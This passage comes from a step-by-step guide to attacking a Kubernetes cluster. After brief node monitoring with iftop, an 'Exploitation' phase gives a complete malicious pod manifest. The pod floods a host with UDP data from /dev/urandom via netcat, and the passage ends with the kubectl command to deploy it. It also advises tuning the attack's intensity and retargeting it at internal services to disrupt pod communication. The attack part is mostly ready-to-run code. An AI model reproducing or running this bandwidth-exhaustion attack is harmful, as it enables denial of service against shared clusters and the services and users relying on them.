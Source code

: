 *   **Explanation:** These commands show how to SSH into a Kubernetes node and use `iftop` to monitor network traffic on a specific network interface.  `iftop` requires root privileges.  Determine the correct interface name using `ip addr`.
*   **Why:**  Provides a low-level view of network traffic on a node.
*   **Expected Output:**  `iftop` will display a real-time view of network traffic, showing connections, bandwidth usage, and source/destination IP addresses.
*   **Contribution:** Allows for detailed monitoring of network traffic at the node level.

**Phase 2: Exploitation (Bandwidth Consumption Attack)**

Now, deploy a malicious pod designed to generate high network traffic.

```bash
# Create a YAML file (e.g., bandwidth-hog.yaml) for a malicious pod
cat <<EOF > bandwidth-hog.yaml
apiVersion: v1
kind: Pod
metadata:
  name: bandwidth-hog
spec:
  containers:
  - name: bandwidth-hog
    image: busybox
    command: ["/bin/sh", "-c"]
    args:
    - while true; do
        # Generate a large amount of data and send it to a non-existent server. Adjust the IP address and port as needed
        dd if=/dev/urandom bs=1M count=10 | nc -u 192.0.2.1 53; #UDP spam
        sleep 0.1; # Reduce CPU load.  Increase for less intense attacks, decrease for more intense attacks.
      done
    resources:
      requests:
        cpu: 100m
        memory: 128Mi
      limits:
        cpu: 500m
        memory: 256Mi
EOF
```

*   **Explanation:** This creates a YAML file defining a pod named `bandwidth-hog`. The pod uses the `busybox` image and runs a shell script that generates random data using `dd` and sends it to a non-existent server (192.0.2.1 on UDP port 53) using `nc` (netcat).  The `sleep` command prevents CPU exhaustion.  The `requests` and `limits` section attempts to allocate resources to the pod.  Without proper resource quotas on the namespace, these may be ignored.
*   **Why:** Deploys a pod that will generate a significant amount of network traffic.
*   **Expected Output:** The `bandwidth-hog.yaml` file will be created.
*   **Contribution:** Defines the malicious pod that will be used in the attack.  Change the IP address to an internal service if you want to affect communication between pods on the internal network.

```bash
# Deploy the malicious pod
kubectl apply -f bandwidth-hog.yaml
```
